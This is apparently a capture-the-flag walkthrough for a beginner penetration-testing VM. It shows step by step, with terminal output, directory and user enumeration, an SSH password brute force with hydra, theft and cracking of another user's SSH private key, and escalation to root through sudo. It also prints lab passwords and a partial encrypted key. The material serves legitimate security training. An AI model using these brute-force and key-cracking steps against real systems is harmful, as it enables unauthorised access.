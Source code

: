 # Web App Testing

### What is the name of the hidden directory on the web server(enter name without /)?
```
┌──(root💀kali)-[~]
└─# dirsearch -u "<machine ip>"
...
[21:20:50] 200 -    1KB - /development/
...
```
> *Answer:* development

### What is the username?
```
┌──(root💀kali)-[~]
└─# enum4linux <machine ip>
...
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
> *Answer:* jan

### What is the password?
```
┌──(root💀kali)-[~]
└─# hydra -l jan -P rockyou.txt ssh://<machine ip> -vV -f
...
[22][ssh] host: 10.10.21.222   login: jan   password: armando
...
```
> *Answer:* armando

### What service do you use to access the server(answer in abbreviation in all caps)?
> *Answer:* SSH

### What is the name of the other user you found(all lower case)?
> *Answer:* kay

### What is the final password you obtain?
```
┌──(root💀kali)-[~]
└─# ssh jan@<machine ip>
jan@10.10.21.222's password: (write armando here)
...
jan@basic2:~$ pwd
/home/jan
jan@basic2:~$ cd /home/kay
jan@basic2:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@basic2:/home/kay$ ls -la .ssh
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@basic2:/home/kay$ cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ
...
e5ofsDLuIOhCVzsw/DIUrF+4liQ3R36Bu2R5+kmPFIkkeW1tYWIY7CpfoJSd74VC
3Jt1/ZW3XCb76R75sG5h6Q4N8gu5c/M0cdq16H9MHwpdin9OZTqO2zNxFvpuXthY
-----END RSA PRIVATE KEY-----
```
Copy id_rsa to inside kali.
```
┌──(root💀kali)-[~]
└─# python /usr/share/john/ssh2john.py id_rsa > id_rsa.john

┌──(root💀kali)-[~]
└─# john --wordlist=rockyou.txt id_rsa.john
...
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)
Warning: Only 1 candidate left, minimum 2 needed for performance.
...
```
SSH to machine with Kay.
```
jan@basic2:/home/kay$ ssh -i .ssh/id_rsa kay@<machine ip>
...
Enter passphrase for key '.ssh/id_rsa': (write beeswax here)
...
kay@basic2:~$ cat /home/kay/pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
> *Answer:* heresareallystrongpasswordthatfollowsthepasswordpolicy$$


<br><br>
# Privilege Escalation
```
kay@basic2:~$ sudo -l
[sudo] password for kay: (write heresareallystrongpasswordthatfollowsthepasswordpolicy$$ here)
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
kay@basic2:~$ sudo su
root@basic2:/home/kay#
```
<h1 align="center">
  <img src="https://i2.wp.com/media4.giphy.com/media/mQG644PY8O7rG/giphy.gif" style="max-width:600px;">
</h1>
```
root@basic2:/home/kay# cd /root
root@basic2:~# ls -la
total 28
drwx------  3 root root 4096 Apr 23  2018 .
drwxr-xr-x 24 root root 4096 Apr 23  2018 ..
-rw-------  1 root root  510 Apr 23  2018 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root 1017 Apr 23  2018 flag.txt
drwxr-xr-x  2 root root 4096 Apr 18  2018 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
root@basic2:~# cat flag.txt
Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain 
a shell, and two ways to privesc. I encourage you to find them all!

If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
takeaways from this challenge should be that every little bit of information you can find can be
valuable, but sometimes you'll need to find several different pieces of information and combine
them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
therefore might've been overlooked by administrators.

Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send 
me a link! I can be reached at josiah@vt.edu. If you've got questions or feedback, please reach
out to me.

Happy hacking!
```

